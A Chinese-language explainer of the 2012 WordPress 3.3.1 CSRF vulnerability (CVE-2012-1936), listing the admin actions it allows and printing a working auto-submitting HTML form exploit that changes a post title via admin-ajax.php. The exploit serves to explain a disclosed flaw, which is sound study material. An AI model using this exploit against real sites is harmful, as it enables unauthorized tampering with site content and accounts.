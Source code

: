 ## [Wordpress 3.3.1 Multiple CSRF Vulnerabilities](https://www.exploit-db.com/exploits/18791/)

该漏洞是由[Ivano Binetti](http://www.ivanobinetti.com)在 2012 年 3 月 19 号发现的，影响了[WordPress 3.3.1 版本 ](http://wordpress.org/wordpress-3.3.1.zip)，CVE 编号 CVE-2012-1936。WordPress 是众所周知的博客平台，该漏洞可以允许攻击者修改某个 Post 的标题，添加管理权限用户以及操作用户账户，包括但不限于删除评论、修改头像等等。具体的列表如下 :

* Add Admin/User
* Delete Admin/User
* Approve comment
* Unapprove comment
* Delete comment
* Change background image
* Insert custom header image
* Change site title
* Change administrator's email
* Change Wordpress Address
* Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的 WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，核心的 Exploit 代码为 :

```
 <html>
 <body onload="javascript:document.forms[0].submit()">
 <H2>CSRF Exploit to change post title</H2>
 <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/admin-ajax.php">
 <input type="hidden" name="post_title" value="hackedtitle"/>
 <input type="hidden" name="post_name" value="hackedtitle"/>
 <input type="hidden" name="mm" value="03"/>
 <input type="hidden" name="jj" value="16"/>
 <input type="hidden" name="aa" value="2012"/>
 <input type="hidden" name="hh" value=""/>
 <input type="hidden" name="mn" value=""/>
 <input type="hidden" name="ss" value=""/>
 <input type="hidden" name="post_author" value="1"/>
 <input type="hidden" name="post_password" value=""/>
 <input type="hidden" name="post_category%5B%5D" value="0"/>
 <input type="hidden" name="post_category%5B%5D" value="1"/>
 <input type="hidden" name="tax_input%5Bpost_tag%5D" value=""/>
 <input type="hidden" name="comment_status" value="open"/>
 <input type="hidden" name="ping_status" value="open"/>
 <input type="hidden" name="_status" value="publish"/>
 <input type="hidden" name="post_format" value="0"/>
 <input type="hidden" name="_inline_edit" value="<sniffed_value>"/>
 <input type="hidden" name="post_view" value="list"/>
 <input type="hidden" name="screen" value="edit-post"/>
 <input type="hidden" name="action" value="inline-save"/>
 <input type="hidden" name="post_type" value="post"/>
 <input type="hidden" name="post_ID" value="1"/>
 <input type="hidden" name="edit_date" value="true"/>
 <input type="hidden" name="post_status" value="all"/>
 </form>
 </body>
 </html>
```
